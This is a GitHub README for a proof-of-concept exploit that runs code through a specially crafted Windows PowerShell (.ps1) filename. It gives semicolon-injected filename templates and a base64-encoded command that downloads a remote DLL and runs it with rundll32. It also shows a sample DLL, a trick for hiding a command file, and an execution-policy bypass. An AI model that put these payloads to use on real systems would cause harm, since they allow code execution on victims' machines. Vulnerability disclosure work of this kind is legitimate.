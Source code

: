 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  



Video PoC:

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/24697d53-b5d2-4bdb-a20a-3240524cc7cc)



